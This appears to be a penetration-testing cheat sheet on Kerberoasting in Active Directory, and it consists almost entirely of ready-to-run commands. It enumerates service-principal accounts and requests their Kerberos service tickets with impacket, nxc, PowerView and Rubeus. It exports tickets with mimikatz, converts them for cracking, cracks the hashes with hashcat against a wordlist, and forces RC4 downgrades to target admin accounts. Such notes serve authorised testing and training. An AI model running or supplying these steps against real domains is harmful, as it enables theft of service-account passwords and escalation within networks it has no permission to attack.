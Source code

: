 ```yaml
---
tags:
  - Authenticated
  - Kerberos
  - AD
---
```

## Identify
---
**Windows**
AD Module in powershell
```PowerShell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
Using Powerview
```PowerShell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```
Living off the land
```PowerShell
setspn.exe -Q */*
```
Using Rubeus
```Python
.\Rubeus.exe kerberoast /stats
```
**Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username
```
  
## Exploit
---
**From Linux**
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request
```
```PowerShell
impacket-GetUserSPNs -dc-ip <dcip> domain.local/username -request-user
```
you can also use `-outputfile <name>`
```
nxc ldap <IP> -u 'user' -p '' --kerberoasting <OUTFILE>
```

**Crack hash**
```PowerShell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
**From Windows**
- Semi-manual approach 

```Bash
setspn.exe -Q */*
```

```Bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"
```

```Bash
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  
```

```Bash
echo "<base64 blob>" |  tr -d \\n 
```

```Bash
cat encoded_file | base64 -d > sqldev.kirbi
```

```Python
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```Python
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Crack the file

```Python
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

!!! info "note"
	If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

  

**PowerView**
```Python
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
```Python
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
```Python
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
**Rubeus**
List info about kerberoastable accounts
```Python
.\Rubeus.exe kerberoast /stats
```
target admin acccounts
```Python
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
use tgt delegation to force RC4 downgrade of tickets. (Doesn't work on >= Win 2019)
```Python
.\Rubeus.exe kerberoast /tgtdeleg /nowrap
```
